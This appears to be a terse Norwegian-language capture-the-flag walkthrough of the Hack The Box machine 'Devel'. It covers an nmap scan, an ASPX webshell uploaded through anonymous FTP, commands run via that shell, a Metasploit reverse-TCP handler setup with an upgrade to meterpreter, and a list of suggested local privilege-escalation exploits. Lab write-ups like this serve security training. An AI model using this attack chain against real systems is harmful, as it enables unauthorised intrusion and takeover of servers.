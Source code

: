 # devel 10.10.10.5

windows maskin

`oot@kali:~# nmap -sS -P0 10.10.10.5`

`Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-26 09:47 EDT`

`Nmap scan report for 10.10.10.5`

`Host is up (0.061s latency).`

`Not shown: 998 filtered ports`

`PORT   STATE SERVICE`

`21/tcp open  ftp`

`80/tcp open  http`

logget inn ftp med anonymous. masse filer. last ned alt med `mget * .` og login med -i som fjerner prompts

http kjører iis7

laster opp et aspx shell [https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx)

[http://10.10.10.5](http://10.10.10.5/myshell.aspx)/sh.aspx

kan her kjøre kommandoer. /c net user

User accounts for \

Administrator            babis                    Guest

The command completed with one or more errors.

/c whoami

iis apppool\web

fikk shell med [https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/](https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/)

prøve å escalata nå da

windows 7 6.1 build 7600

oppgradere fra nc til metasploit til meterpreter

* use mutli/handler

* set LHOST attack-machine

* set LPORT port-as-appropraite

* set payload windows/shell/reverse\_tcp

* exploit'

background session med ctrl z&lt;

`use post/multi/manage/shell_to_meterpreter`

```
use post/multi/recon/local_exploit_suggester 
```

\[+\] 10.10.10.5 - exploit/windows/local/bypassuac\_eventvwr: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_015\_kitrap0d: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_092\_schelevator: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_053\_schlamperei: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_081\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms14\_058\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_004\_tswbproxy: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_051\_client\_copy\_image: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_016\_webdav: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_032\_secondary\_logon\_handle\_privesc: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ppr\_flatten\_rec: The target appears to be vulnerable.


